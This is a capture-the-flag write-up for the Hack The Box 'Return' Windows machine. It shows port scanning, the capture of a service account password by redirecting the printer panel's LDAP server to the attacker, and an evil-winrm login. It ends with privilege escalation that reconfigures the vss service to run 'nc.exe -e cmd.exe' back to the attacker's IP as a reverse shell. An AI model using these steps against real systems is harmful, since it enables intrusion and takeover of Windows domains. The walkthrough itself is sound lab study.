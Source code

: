 # Return Write-Up

Easy

Tags:
`enum4linux`
`Win Remote`
`Service Control`

## Intro

1. Use `configuration pages` of the priter to specific the
domain controller or file server.

2. 

## Enumeration

### Port scanning

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.108 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.11.108
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-11 03:03:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
53118/tcp open  msrpc         Microsoft Windows RPC
```

### Try [SMB Enumeration](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)

Nothing to exploit

### Web interface

Edit `Server Address` -> attacker ip

netcat listener on port 389

password: `1edFg43012!!`

WinRM tool kali - `evil-winrm`

```
ruby evil-winrm.rb -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

## Privilege Escalation

Check `Local Group Memberships` of `svc-printer` user

```
net user svc-printer
```

```
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
```

[Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group can start, stop system services

Use [basic command](https://github.com/Hackplayers/evil-winrm#basic-commands) of `evil-winrm` to upload `windows-binaries` - A collection of Windows executables for use on penetration tests.

```
upload /usr/share/windows-resources/binaries/nc.exe
```

Use `sc.exe config` - Modifies the value of a service's entries in the registry and in the Service Control Manager database.

```
sc config <service name> binPath= <binary path>
```

Why use `vss - Volume Shadow Copy` instead of another service?

How to use `nc.exe`? Why use `"nc.exe -e cmd.exe <ip> <port>"` command?

```
sc.exe config vss binpath='C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.6 1234'
```

listener on port 1234

```
sc.exe start vss
```